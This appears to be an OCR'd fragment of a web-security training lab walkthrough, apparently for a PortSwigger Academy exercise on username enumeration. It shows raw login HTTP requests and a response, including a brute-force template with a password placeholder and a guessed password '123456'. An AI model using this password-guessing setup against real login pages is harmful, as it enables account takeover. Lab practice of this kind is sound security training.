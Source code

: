 ```python
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Origin: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: close

username=alpha&password=§PASSWD§







REQUES INCORRECTA:




rigin: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: keep-alive

username=alpha&password=123456




RESPONSE INCORRECTA:


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3142

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Username enumeration via different responses</title>
    </head>
    <body>
```
